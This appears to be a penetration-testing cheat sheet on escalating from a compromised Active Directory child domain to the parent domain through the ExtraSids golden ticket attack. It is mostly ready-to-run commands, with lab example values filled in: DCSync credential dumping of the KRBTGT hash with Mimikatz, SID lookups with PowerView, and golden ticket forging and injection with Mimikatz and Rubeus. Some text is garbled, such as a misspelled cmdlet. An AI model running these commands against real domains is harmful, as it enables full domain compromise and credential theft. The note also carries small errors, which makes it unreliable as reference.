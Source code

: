 -- -
This is a trust relationship attack that you pull off after you have taken over a child domain. It is used to take over the parent domain by abusing the trust relationship and SIDs. 
#### Requirements
- The `KRBTGT` hash for the child domain
- The `SID` for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The `FQDN` of the child domain.
- The `SID` of the Enterprise Admins group of the root domain
- Mimikatz
## Windows
#### Get KRBTGT via Golden Ticket Attack
We are attempting to get a KRBTGT. KRBTGT Stands for Kerberos Ticket Granting Ticket. It's a ticket for the Service Account used to encrypt and sign all Kerberos tickets granted within the given domain. Can be used to request TGS tickets for any service on any host in the domain. Also known as the #GoldenTicket. This is a well-known #persistence method. 
After you have domain admin (or similar), log into said privileged account on a host (or DC) in the domain. Run DCSync attack to obtain the hash for the KRBTGT account.
```powershell
.\mimikatz.exe
privilege::debug
lsadump::dcsync /user:<domain>\krbtgt
lsadump::dcsync /user:LOGISTICS\krbtgt
```

The child domain SID should be output by mimikatz if you use the method linked above, but otherwise you can also determine this by running the following on the child domain you have compromised via PowerView:
```powershell
Get-DFomainSID
```
#### Get Enterprise Admins Group's SID
```Powershell
# PowerView
Get-DomainGroup -Domain <domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

#Powershell
Get-ADGroup -Identity "Enterprise Admins" -Server <domain>
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL".
```
#### Create Golden Ticket
**mimikatz**
```powershell
mimikatz.exe
kerberos::golden /user:<username> /domain:<domain> /sid:<child domain sid> /krbtgt:<krbtgt hash> /sids:<enterprise admin sid> /ptt

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# verify golden ticket was created and resides in memory, run outside mimikatz
klist
```

**Rubeus**
```powershell
.\Rubeus.exe golden /rc4:<krbtgt hash> /domain:<domain> /sid:<child domain sid> /sids:<enterprise admin sid> /user:<username> /ptt

.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# verify golden ticket was created and resides in memory
klist
```
#### DCSync attack
```powershell
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

## Linux
#### Get KRBTGT NTLM hash of Child-Domain
Perform a DCSync attack on the child domain to dump the NTLM hash of the KRBTGT of the child-domain.
![[secretsdump#^c004aa]]
